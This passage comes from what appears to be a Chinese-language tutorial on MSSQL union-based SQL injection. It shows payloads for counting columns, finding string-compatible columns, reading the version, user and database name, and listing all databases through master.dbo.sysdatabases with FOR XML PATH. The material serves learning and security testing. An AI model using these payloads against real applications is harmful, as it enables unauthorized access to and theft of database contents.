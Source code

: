```
```

判断注入方法同上

猜解字段数
```
order by n   //原理同上面一样
union all select null,null,null.......    //推荐    有些特殊字段类型不能进行order by排序 即使存在也会报错
```
不能使用order by的时候使用：
```
union all select null,null,null.......
select后面加null，直到返回正常，多少个null就代表多少个字段，因为联合查询的前后结果字段数要相同，上面也有讲到。
union和select直接要加all，因为默认会有一个DISTINCT去重的操作，一些特殊字段类型可能会报错，所以要加all。
union联合查询结果的前后对应列的数据类型必须是相互兼容的，所以这里使用null占位，
```

![](http://image.ixysec.com/image/sql/sql022.png)

![](http://image.ixysec.com/image/sql/sql021.png)

匹配数据类型
我们想要获取信息，至少需要一个数据类型为字符串的列以便通过它来存储并返回我们想要的数据。
```
union all select 'test',null,null
union all select null,'test',null
union all select null,null,'test'
......
```
只需一次一列的使用示例字符串替换null即可，页面返回正常则当前列名支持字符串。

![](http://image.ixysec.com/image/sql/sql023.png)

我表中第一列是int类型所以报错了，因为我开启了详细错误方便调试，所以直接把错误信息显示了出来，实战中返回的信息可能各不相同。关于报错注入在后面其他类型的注入中会讲到。

![](http://image.ixysec.com/image/sql/sql024.png)

查询版本，当前数据库，用户等信息
```
版本：@@version
当前用户：
    system_user
    suser_sname()
    user
当前数据库:db_name()
```
![](http://image.ixysec.com/image/sql/sql025.png)

爆所有数据库
```
union all select null,name,null from master.dbo.sysdatabases
union all select null,'|'%2bname%2b'|',null from master.dbo.sysobjects where xtype='U' for xml path('')
```
利用SQL的FOR XML PATH 参数来进行字符串拼接，可以将结果拼接成一条显示，因为实战中的页面代码可能只允许显示一条并不是循环显示。
![](http://image.ixysec.com/image/sql/sql028.png)

